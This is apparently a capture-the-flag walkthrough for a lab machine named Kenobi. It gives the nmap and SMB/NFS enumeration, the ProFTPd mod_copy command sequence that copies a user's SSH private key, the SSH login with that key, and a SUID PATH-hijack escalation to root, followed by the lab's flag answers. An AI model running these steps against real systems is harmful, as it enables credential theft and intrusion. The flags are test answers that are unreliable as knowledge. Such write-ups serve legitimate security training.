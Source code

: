 # Kenobi

ip : `10.10.211.141`

## Deploy the vulneravle machine 

nmap scanning 
```
sudo nmap -sC -sV 10.10.211.141 -oN service-scan.txt
```
| Questions | Answers |
|-----------|---------|
| Scan the machine with nmap, how many ports are open? | 7 |

## Enumerating Samba for shares


enumerate smb shares and users
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.211.141
```

enumerate NFS(Network File System) 
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.211.141
```
| Questions | Answers |
|-----------|---------|
| Using the nmap command above, how many shares have been found ? | 3 |
| Once you're connected, list the files on the share. What is the file can you see? | log.txt |
| What port is the FTP running on ? | 21 |
| What mount can we see ? | /var |

## Gain initial access with ProFtpd

searching for exploit
```
searchsploit ProFTPd 1.3.5
```
copying the ssh key file through netcat
```
nc 10.10.211.141 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

mounting the NFS
```
sudo mount 10.10.211.141:/var /mnt/KenobiNFS
```

connecting ssh through the private key
```
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.211.141
```
| Questions | Answers |
|-----------|---------|
| What is the version ? | 1.3.5 |
| How many exploits are there for the ProFTPd running ? | 4 |
| What is Kenobi's User flag (/home/kenobi/user.txt) ? | d0b0f3f53b6caa532a83915e19224899 |

## Privilege Escalation wiht Path Variable Manipulation

find binaries with suid set bit 
```
find /usr -user root -perm /4000
```
excalate root
```
cd /tmp
echo "/bin/sh" > ifconfig
chmod +x ifconfig
menu
```
after that just give 3 as a choice and boom ! 


| Questions | Answers |
|-----------|---------|
| What file looks particularly out of the ordinary ? | /usr/bin/menu |
| Run the binary, how many options appear? | 3 |
| What is the root flag? (/root/root.txt) ? | 177b3cd8562289f37382721c28381f02 |
